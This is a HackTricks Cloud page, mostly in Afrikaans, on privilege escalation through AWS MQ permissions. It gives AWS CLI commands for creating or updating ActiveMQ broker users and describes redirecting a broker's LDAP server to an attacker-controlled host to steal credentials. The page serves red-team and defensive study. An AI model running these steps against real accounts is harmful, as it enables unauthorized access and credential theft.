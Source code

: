 # AWS - MQ Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MQ

Vir meer inligting oor MQ kyk:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Met daardie toestemmings kan jy **'n nuwe gebruiker in 'n ActimeMQ broker skep** (dit werk nie in RabbitMQ nie): 

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potensiële Impak:** Toegang tot sensitiewe inligting deur ActiveMQ te navigeer

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Met daardie toestemmings kan jy **'n nuwe gebruiker in 'n ActimeMQ broker skep** (dit werk nie in RabbitMQ nie):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potensiële Impak:** Toegang tot sensitiewe inligting deur ActiveMQ te navigeer

### `mq:ListBrokers`, `mq:UpdateBroker`

As 'n broker **LDAP** vir outentisering met **ActiveMQ** gebruik. Dit is moontlik om die **konfigurasie** van die LDAP-bediener wat gebruik word, te **verander** na **een wat deur die aanvaller beheer word**. Op hierdie manier sal die aanvaller in staat wees om **alle geloofsbriewe wat deur LDAP gestuur word, te steel**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
As jy op een of ander manier die oorspronklike geloofsbriewe wat deur ActiveMQ gebruik is, kan vind, kan jy 'n MitM uitvoer, die geloofsbriewe steel, dit in die oorspronklike bediener gebruik, en die antwoord stuur (misschien net die gesteelde geloofsbriewe hergebruik, jy kan dit doen).

**Potensiële Impak:** Steel ActiveMQ geloofsbriewe

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
